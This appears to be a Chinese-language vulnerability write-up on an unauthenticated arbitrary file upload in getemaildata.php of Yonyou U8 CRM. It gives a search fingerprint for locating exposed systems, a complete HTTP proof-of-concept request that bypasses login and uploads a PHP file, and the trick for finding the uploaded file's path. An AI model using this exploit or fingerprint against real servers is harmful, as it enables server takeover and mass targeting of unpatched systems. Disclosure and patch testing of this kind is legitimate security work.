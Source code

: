 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面

![image-20230828151026882](images/image-20230828151026882.png)

验证POC

```
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![image-20230828151040826](images/image-20230828151040826.png)

访问文件，文件名需要十六进制减一

```
/tmpfile/updD24D.tmp.php
```